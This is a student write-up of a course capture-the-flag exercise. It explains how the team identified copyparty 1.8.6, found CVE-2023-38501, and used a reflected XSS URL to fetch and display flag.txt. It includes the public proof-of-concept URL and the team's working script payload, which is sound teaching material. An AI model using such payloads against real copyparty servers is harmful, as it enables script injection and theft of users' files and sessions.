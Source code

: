 # CTF7

This document is a brief explanation of our resolution of the XSS CTF given to us during week 7.

## Recognition

We start exploring the website and found the critical file `flag.txt` very easily but when we open it we see this text:

```text
Nice try, I am only accessible via JavaScript shenanigans.
```

It looks like we need to open this file using JavaScript.

Exploring a little bit more we found a file `HELP.md` where there is a line (the first one) naming the software used and its version:

```text
[SFX]    this is: copyparty 1.8.6
```

With this we search about this software and found out some interesting things.

## Searching and Choosing for Vulnerabilities

In this case we knew that we needed some XSS vulnerability to insert JavaScript to find the flag.
With the software name we searched in a CVE database for any known vulnerabilities that could help us and found CVE-2023-38501 that had the following description:

```txt
Copyparty is a portable file server. Versions prior to 1.8.6 are subject to a reflected cross-site scripting (XSS) Attack.
Vulnerability that exists in the web interface of the application could allow an attacker to execute malicious javascript code by tricking users into accessing a malicious link.
(https://www.exploit-db.com/exploits/51635)
```

## Exploring the Vulnerabilities

In the CVE database (mentioned before) we also found this example:

```txt
https://localhost:3923/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

To accomplish the actual exploit we need to change the method used because the example URL uses an image and will just verify if the vulnerabily actually exists by showing a simple alert, but thats not what we want.

First we needed to use `<script>` because we needed to use JavaScript.
We want to see the actual content of the `flag.txt` file so we need to use the fetch method.
Then the `.then(response => response.text())` converts the response into a readable string.
And lastly the `.then(data => alert(data))` displays the flag content in an alert box.
Based on that we wrote our own URL.

```txt
// Unsanitized version
http://ctf-fsi.fe.up.pt:5007/?k304=y<script> fetch('/flag.txt').then(response => response.text()).then(data => alert(data)) </script>

// Final and working version
https://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A<script>%20fetch('/flag.txt').then(response%20=>%20response.text()).then(data%20=>%20alert(data))%20</script>
```

<div align="center">
    <figure>
        <img src="images/CTF7/flag.png" width="550">
        <figcaption style="font-size: smaller;">Figure 1: Flag</figcaption>
    </figure>
</div>

## Questions

This questions were in the CTF description and we decided to include them here because these helped our thought process and helped us complete this CTF.

**Question1**: Find the file refering to the flag on the server. Why couldn't you open the secret flag directly?

**Answer**: The file refering to the flag on the server was the `flag.txt` file but we need to open it using JavaScript code.

**Question2**: This service is popular, maybe there is a know vulnerability. Maybe it can help access the flag?

**Answer**: The `copyparty` service's version `1.8.6` as some vulnerabilities and one of them (CVE-2023-38501) is perfectly suited for the type of attack we want to do (XSS).

**Question3**: Which type of vulnerability is XSS (Reflected, Stored ou DOM) that allowed you to access the flag?

**Answer**: The type of XSS vulnerability that allowed us to access the flag in this scenario is a **Reflected XSS** because:

- The payload was reflected directly in the server's response.
- The execution occurred immediately when the crafted URL was accessed.
